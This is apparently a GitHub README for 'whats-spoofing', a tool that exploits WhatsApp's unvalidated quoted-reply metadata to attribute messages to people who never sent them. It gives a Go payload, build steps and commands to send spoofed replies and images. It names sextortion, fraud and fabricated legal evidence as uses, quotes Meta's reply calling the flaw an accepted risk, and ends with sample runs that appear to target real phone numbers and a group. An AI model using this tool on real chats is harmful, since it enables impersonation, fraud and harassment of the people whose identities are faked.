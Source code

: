 # Whatsapp Spoofing impersonate of reply message
send 
All official WhatsApp clients, upon receiving a "Message Reply" payload (QuotedMessage), do not validate whether the "ContextInfo" of this "QuotedMessage" is valid/exists ("StanzaId" and "Participant"). This allows a malicious actor to send in private chats or groups a "QuotedMessage" of a message that never existed on behalf of another person. This is highly critical and dangerous.

## Impact

Malicious individuals can use this to create issues such as:

- Arguments between couples
- Sextortion scams
- Frauds against financial institutions
- In Brazil, someone could take a cellphone to a notary office to register a "Notarial Act" to create a record that could be used in legal proceedings, claiming that the original message was deleted but keeping the evidence of the "QuotedMessage."
- Creating embarrassing situations involving public figures (famous actors, politicians, etc.)

## What Meta/Facebook said about this

Hi Gustavo,

Thanks for your report. This issue has been reported to us before, and we consider it to be an accepted risk. When someone replies to a message, the WhatsApp client copies the text available within the app and creates a graphical representation that helps people follow the conversation, the owner of this quoted message is always the person replying to the original message. WhatsApp uses end to end encryption and doesn’t store messages on its servers, therefore we don’t have a single source of truth for these messages. People always have the option of blocking a sender who tries to spoof messages and they can report problematic content to us. Although we appreciate the report, such issues do not qualify under our bug bounty program.

Thanks,

Teo

## App Versions

Latest version on all platforms

## The problem

Users: UserA, UserB; UserA is not known by UserB

UserA (SCAMMER) sends a spoofed messages to UserB in response to a message that UserB did never send

Spoofed message payload:

```go
msg := &waProto.Message{
    ExtendedTextMessage: &waProto.ExtendedTextMessage{
        Text: proto.String("Some text"),
        ContextInfo: &waProto.ContextInfo{
            StanzaId:     proto.String("Some Random ID"), //Random ID
            Participant: proto.String("5511999999999@s.whatsapp.net"), //Spoofed user ID
            QuotedMessage: &waProto.Message{
                Conversation: proto.String("Some Spoofed text"), //QuotedMessage Spoofed text
            },
        },
    },
}
```

Send the Spoofed Payload:

```go
resp, err := cli.SendMessage(context.Background(), chatID, msg) 
// chatID is the ID of the chat you want to send the message to, can be a group or the same number as the spoofed user ID
```

## Exploit

#### Clone the repository.


### Install dependencies.

```bash
go mod download
go get 
```

### Build

```bash
go build 
```

### Running

```bash
./whats-spoofing
```

### Usage

#### Retrieve Group Information

```txt
getgroup <jid>
```

#### List Groups

```txt
listgroups
```

#### Send Spoofed Reply

```txt
send-spoofed-reply <chat_jid> <msgID:!|#ID> <spoofed_jid> <spoofed_text>|<text>
```

#### Send Spoofed Image Reply

```txt
send-spoofed-img-reply <chat_jid> <msgID:!|#ID> <spoofed_jid> <spoofed_file> <spoofed_text>|<text>
```

#### Send Spoofed Demo Message

```txt
send-spoofed-demo <toGender:boy|girl> <language:br|en> <chat_jid> <spoofed_jid>
```

#### Send Spoofed Demo Message with Image

```txt
send-spoofed-demo-img <toGender:boy|girl> <language:br|en> <spoofed_jid> <spoofed_img>
```

send-spoofed-demo boy en 254706310869 254706310869 254798978585

send-spoofed-demo boy en 120363044658569467@g.us 254798978585

send-spoofed-demo boy en 254798978585 254798978585

